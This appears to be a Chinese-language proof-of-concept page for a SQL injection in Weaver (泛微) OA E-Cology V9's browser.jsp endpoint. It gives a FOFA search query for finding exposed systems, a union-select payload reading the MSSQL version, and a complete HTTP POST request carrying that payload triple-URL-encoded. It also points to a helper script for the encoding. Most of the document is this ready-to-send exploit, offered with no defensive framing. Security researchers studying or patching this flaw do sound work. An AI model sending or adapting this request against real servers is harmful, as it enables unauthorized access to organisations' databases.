

# 泛微OA E-Cology V9 browser.jsp SQL注入漏洞
## 资产收集：
fofa：`app="泛微-协同商务系统"`  

## POC
漏洞位置：  
POS请求:/mobile/%20/plugin/browser.jsp ，参数：keyword ，exp需要三次url编码，MSSQL数据库  
例poc：a' union select 1,''+(SELECT @@VERSION)+'  
```
POST /mobile/%20/plugin/browser.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close
Content-Length: 649

isDis=1&browserTypeId=269&keyword=%2525%2536%2531%2525%2532%2537%2525%2532%2530%2525%2537%2535%2525%2536%2565%2525%2536%2539%2525%2536%2566%2525%2536%2565%2525%2532%2530%2525%2537%2533%2525%2536%2535%2525%2536%2563%2525%2536%2535%2525%2536%2533%2525%2537%2534%2525%2532%2530%2525%2533%2531%2525%2532%2563%2525%2532%2537%2525%2532%2537%2525%2532%2562%2525%2532%2538%2525%2535%2533%2525%2534%2535%2525%2534%2563%2525%2534%2535%2525%2534%2533%2525%2535%2534%2525%2532%2530%2525%2534%2530%2525%2534%2530%2525%2535%2536%2525%2534%2535%2525%2535%2532%2525%2535%2533%2525%2534%2539%2525%2534%2566%2525%2534%2565%2525%2532%2539%2525%2532%2562%2525%2532%2537
```

## URL三次编码脚本
可使用[python脚本](file/urlEncode3.py)进行三次url编码，命令：`python3 urlEncode3.py`